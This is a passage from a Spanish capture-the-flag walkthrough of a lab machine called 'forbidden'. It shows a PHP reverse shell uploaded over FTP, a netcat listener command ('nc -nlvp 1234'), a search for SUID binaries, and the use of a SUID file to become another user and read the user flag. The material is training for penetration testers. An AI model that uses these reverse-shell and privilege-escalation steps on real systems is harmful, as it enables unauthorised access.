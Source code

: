 Los subo con put mediante ftp y me pongo a la escucha con: `nc -nlvp 1234`

Haciendo ensayo y error, veo que se ejecuta el fichero rev.php5 dándome una shell. Así que realizamos el [tratamiento de la TTY](https://kaianperez.github.io/tty/) y vamos a por la flag de user:

~~~bash
www-data@forbidden:/home/marta$ cd /home
www-data@forbidden:/home$ ls -lR
.:
total 12
drwxr-xr-x 3 markos markos 4096 Oct  9  2020 markos
drwxr-xr-x 3 marta  marta  4096 Oct  9  2020 marta
drwxr-xr-x 2 peter  peter  4096 Oct  9  2020 peter

./markos:
total 4
-rw------- 1 markos markos 12 Oct  9  2020 user.txt

./marta:
total 4
-rw-r--r-- 1 root root 130 Oct  9  2020 hidden.c

./peter:
total 0
www-data@forbidden:/home$ cat markos/user.txt 
cat: markos/user.txt: Permission denied
~~~

Vamos a revisar los permisos SUID:

~~~bash
www-data@forbidden:/$ find / -perm -4000 -ls 2>/dev/null
   266980     20 -rwsr-sr-x   1 root     marta       16712 Oct  9  2020 /home/marta/.forbidden
   135063     52 -rwsr-xr-x   1 root     root        51280 Jan 10  2019 /usr/bin/mount
   131140     44 -rwsr-xr-x   1 root     root        44528 Jul 27  2018 /usr/bin/chsh
   131139     56 -rwsr-xr-x   1 root     root        54096 Jul 27  2018 /usr/bin/chfn
   149836    156 -rwsr-xr-x   1 root     root       157192 Feb  2  2020 /usr/bin/sudo
   134728     64 -rwsr-xr-x   1 root     root        63568 Jan 10  2019 /usr/bin/su
   134581     44 -rwsr-xr-x   1 root     root        44440 Jul 27  2018 /usr/bin/newgrp
   131142     84 -rwsr-xr-x   1 root     root        84016 Jul 27  2018 /usr/bin/gpasswd
   135065     36 -rwsr-xr-x   1 root     root        34888 Jan 10  2019 /usr/bin/umount
   131144     64 -rwsr-xr-x   1 root     root        63736 Jul 27  2018 /usr/bin/passwd
   132371     52 -rwsr-xr--   1 root     messagebus    51184 Jul  5  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
   268440     12 -rwsr-xr-x   1 root     root          10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
   146582    428 -rwsr-xr-x   1 root     root         436552 Jan 31  2020 /usr/lib/openssh/ssh-keysign
~~~

Tenemos un primer fichero bastante sospechoso, el cual al ejecutarlo me convirtió en *markos* y pude leer la flag de user:

~~~bash
www-data@forbidden:/home/markos$ /home/marta/.forbidden
markos@forbidden:/home/markos$ cat user.txt
~~~
